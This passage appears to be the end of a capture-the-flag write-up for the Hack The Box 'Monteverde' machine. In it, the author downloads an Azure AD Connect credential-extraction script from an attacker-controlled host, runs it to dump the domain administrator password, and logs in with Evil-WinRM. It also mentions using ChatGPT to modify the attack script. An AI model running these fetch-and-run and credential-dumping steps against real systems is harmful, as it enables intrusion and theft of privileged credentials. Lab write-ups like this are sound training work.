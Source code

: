 This is just parsing the decrypted xml and then outputting it in such a way that it is readable.



I then asked ChatGPT after pasting in the above file to modify the script so that it outputs all the variables as the program manges to find them. This is mostly so we can get a decent understanding of what is going on in the script. To see and run the modified version of the program, you can go visit this url:
<br>
https://gist.github.com/ma1ware07/a22a5c91122b158d3bae392acd52e17b

Anyway, we now have a very decent understanding of the script and we can proceed to get Administrator access now.

#### Administrator at last!

I spin up a webserver on port 80, and download the file using Invoke-WebRequest (iwr).

```powershell
*Evil-WinRM* PS C:\Users\mhope> iwr -uri http://10.10.16.26/Azure-ADConnect.ps1 -Outfile Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope> . .\Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope> Azure-ADConnect -server localhost -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

We can login into the box using evil-winrm and then fetch the root flag.

```bash
~/htb/boxes/OSCP-PREP/Monteverde ❯ evil-winrm -i MEGABANK.LOCAL -u Administrator -p 'd0m@in4dminyeah!'
                                        
Evil-WinRM shell v3.7
                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

root.txt: 6c5262d96d322d0928c3deea48fb993f

That's the box, I hope you enjoyed it!
